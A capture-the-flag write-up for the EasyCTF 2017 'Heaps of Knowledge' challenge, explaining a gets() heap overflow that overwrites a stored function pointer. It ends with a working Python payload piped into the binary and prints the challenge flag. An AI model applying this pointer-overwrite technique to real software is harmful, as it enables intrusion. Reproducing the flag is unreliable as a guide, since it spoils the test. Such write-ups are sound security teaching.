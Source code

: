 # Heaps of Knowledge - 420 Points

Can you pwn this? Navigate to /problems/heaps_of_knowledge/ on the shell server and read flag.txt.

[Binary](https://github.com/EasyCTF/easyctf-2017-problems/blob/master/heaps_of_knowledge/heaps_of_knowledge?raw=true)

### Solution

###### Writeup by VoidMercy from phsst

We were given a binary. We run it to see what it does.
It prompts you for a book name, then there are three options:

```
Please enter the title of the book you would like to write: AAAA
You have started writing the book 'AAAA'. Please select an option to get started!
1. Edit chapter
2. Delete chapter
3. Publish book
```

After experimenting with this program, you find out that you can only create a chapter starting from 1, 2, 3 and so on. Also you can only delete an existing chapter otherwise the program will exit. Then, publish prints the title, and the content of each chapter. Then, if you edit an existing chapter, it changes it's content.

Because this problem is called Heaps of Knowledge, we can be fairly certain this will be a heap exploit.
We can run this in gdb, enter a random book title, let's say "AAAA" then view our heap using:

>info proc mappings

```
(gdb) x/50wx 0x804c000
0x804c000:      0x00000000      0x00000011      0x0804c018      0x00000000
0x804c010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804c020:      0x00000000      0x00020fe1      0x00000000      0x00000000
0x804c030:      0x00000000      0x00000000      0x00000000      0x00000000
```

We can see that the first section consists of an address to the actual title of the book, contained in another section. Let's do the same after adding a couple of chapters. Let's set chapter 1's name to BBBB, and it's content to CCCC while chapter 2's name to DDDD and it's content to EEEE

```
0x804c000:      0x00000000      0x00000011      0x0804c018      0x00000002
0x804c010:      0x0804c028      0x00000011      0x41414141      0x00000000
0x804c020:      0x00000000      0x00000019      0x00000000      0x0804c060
0x804c030:      0x0804c040      0x0804c050      0x0804872f      0x00000011
0x804c040:      0x42424242      0x0000000a      0x00000000      0x00000011
0x804c050:      0x43434343      0x0000000a      0x00000000      0x00000019
0x804c060:      0x0804c028      0x00000000      0x0804c078      0x0804c088
0x804c070:      0x0804872f      0x00000011      0x44444444      0x0000000a
0x804c080:      0x00000000      0x00000011      0x45454545      0x0000000a
0x804c090:      0x00000000      0x00020f71      0x00000000      0x00000000
```

We can see that this is very similar in structure. The section containing addresses for chapters, however, contains three addresses: the chapter's name, chapter's content, and huh? what is the last one? We can quickly view it using

>x 0x0804872f

```
0x804872f <print_chapter>:      0x83e58955
```

We see that this is an address pointing to the function to print this chapter. From this knowledge, we can surmise that the edit chapter edits content at the chapter's content's address (for chapter 1 in this case, it is 0x0804c050). Then the publish function most likely calls the function at the print chapter address stored on the heap. (for chapter 1 it is 0x0804872f).

Next, we look into the disassembly of the binary. I used IDA to disassemble this binary.

![](https://github.com/VoidMercy/EasyCTF-Writeups-2017/blob/master/binexploit/Heaps-of-Knowledge/screenshot1.PNG)

It uses gets() to get the content of the chapter text! This means we can overflow the heap because gets does not check the length of the string you give it. Using this, we can pretty much construct the heap to whatever we want it to look like.
We then see a give_flag function so we look into it. It reads the flag file and prints it's contents. However, there's a catch

![](https://github.com/VoidMercy/EasyCTF-Writeups-2017/blob/master/binexploit/Heaps-of-Knowledge/image.png)

success needs to be set to 0x13371337 in order for the flag file to be read. And we see that success is set to just 0x1337 in default. However, we can use the edit chapter content function of the program to change the address of chapter content and write to that address. Then if we set the address of print chapter to give_flag, publishing the book should give us our flag.

I used gdb to get the address of give_flag, and IDA for success:

>p give_flag

```
$2 = {<text variable, no debug info>} 0x804879a <give_flag>
```

and success = 0x0804b054

Now I used gdb to create two chapters, and manually edit the heap to what I want it to look like using:

>set {int}address=value

Here is the state of the heap:

```
0x804c000:      0x00000000      0x00000011      0x0804c018      0x00000002
0x804c010:      0x0804c028      0x00000011      0x41414141      0x42424242
0x804c020:      0x00000000      0x00000019      0x00000000      0x0804c060
0x804c030:      0x0804c040      0x0804c050      0x0804879a <give_flag> 0x00000011
0x804c040:      0x43434343      0x0000000a      0x00000000      0x00000011
0x804c050:      0x44444444      0x0000000a      0x00000000      0x00000019
0x804c060:      0x0804c028      0x00000000      0x0804c078      0x0804b054 <success>
0x804c070:      0x0804872f      0x00000011      0x45454545      0x0000000a
0x804c080:      0x00000000      0x00000011      0x46464646      0x0000000a
0x804c090:      0x00000000      0x00020f71      0x00000000      0x00000000
0x804c0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0d0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0e0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0f0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c100:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c110:      0x00000000      0x00000000
```

Then after editing the contents of chapter 2 to 0x13371337 and publishing, the contents of flag.txt was successfully printed.


Now we know the requirements for the exploit:
1) Change address of chapter content to address of success
2) Edit that chapter's content to 0x13371337
3) Change address of print chapter to address of give_flag
4) Publish

Now, we just have to construct an exploit.

I decided to create 2 chapters and overflow the second chapter's addresses through the first chapter's content.

The key input order will be:

AAAA

1

1

BBBB

CCCC

1

2

DDDD

EEEE

1

1

"C" * 24 + 0x804c078 + 0x0804b054 + 0x804879a

1

2

0x13371337

3

I printed the non printable ascii characters with python and piped the input into the binary

python -c "print 'AAAA\n1\n1\nBBBB\nCCCC\n1\n2\nDDDD\nEEEE\n1\n1\n' + 'C'*24 + '\x78\xc0\x04\x08' + '\x54\xb0\x04\x08' + '\x9a\x87\x04\x08\n' + '1\n2\n' + '\x37\x13\x37\x13\n' + '3\n'" | ./heaps_of_knowledge

## Flag

>easyctf{4r3nT_u_hav1ng_h34pz_0f_Fun?}
